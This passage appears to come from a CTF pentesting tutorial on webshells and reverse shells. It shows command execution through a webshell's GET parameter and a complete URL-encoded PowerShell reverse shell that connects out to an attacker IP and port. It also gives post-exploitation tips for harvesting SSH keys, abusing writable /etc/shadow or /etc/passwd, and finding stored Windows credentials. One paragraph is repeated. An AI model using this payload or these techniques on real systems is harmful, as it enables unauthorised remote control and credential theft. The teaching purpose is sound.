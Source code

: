 Notice that when navigating the shell, we used a GET parameter `cmd` with the command `ifconfig`, which correctly returned the network information of the box. In other words, by entering the `ifconfig` command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. `whoami`, `hostname`, `arch`, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

    powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

## Next Steps

**Ok, we have a shell. Now what?**

We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal. So, what can we do about this?

On Linux ideally we would be looking for opportunities to gain access to a user account. `SSH` keys stored at `/home/<user>/.ssh` are often an ideal way to do this. In CTFs it's also not infrequent to find credentials lying around somewhere on the box. Some exploits will also allow you to add your own account. In particular something like [Dirty C0w](https://dirtycow.ninja/) or a writeable `/etc/shadow` or `/etc/passwd` would quickly give you SSH access to the machine, assuming SSH is open.

On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at `C:\Program Files\FileZilla Server\FileZilla Server.xml`
 or `C:\xampp\FileZilla Server\FileZilla Server.xml`. These can be MD5 hashes or in plaintext, depending on the version.
